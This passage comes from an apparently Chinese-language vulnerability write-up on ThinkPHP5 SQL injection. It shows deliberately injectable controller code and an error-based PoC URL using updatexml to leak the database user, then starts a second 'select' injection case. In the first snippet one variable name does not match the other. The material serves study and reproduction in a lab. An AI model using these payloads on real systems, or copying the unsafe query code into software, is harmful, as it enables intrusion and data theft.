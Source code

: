   **漏洞复现（内网环境）**  
**在 \ thinkphp\application\index\controller\Index.php 添加以下代码:**

```
class Index

{

    public function index()

    {

        $username = request()->get('name/a');

        db('user')->insert(['name' => $name]);

        return 'Update success';

    }

}
```

**Poc/exp:**

```
/index/index/index?name[0]=inc&name[1]=updatexml(1,concat(0x7,user(),0x7e),1)&name[2]=1
```

[![](http://zone.secevery.com/uploads/article/20191220/ea842a59a0b267116f44988731990116.png)](http://zone.secevery.com/uploads/article/20191220/ea842a59a0b267116f44988731990116.png)

  **六，ThinkPHP5 select 注入**  
**漏洞介绍**  
本次漏洞存在于 Mysql 类的 parseWhereItem 方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 SQL 语句，导致 SQL 注入漏洞 的产生。

  **影响版本**  
ThinkPHP5 全版本

  **漏洞分析参考：**  
https://www.freebuf.com/column/206387.html

  **漏洞复现（内网环境**）  
**在 \ thinkphp\application\index\controller\Index.php 添加以下代码:**

```
class Index

{

    public function index()

    {

        $name = request()->get('name');

        $result = db('user')->where('name','exp',$name)->select();

        return 'select success';

    }

}
```
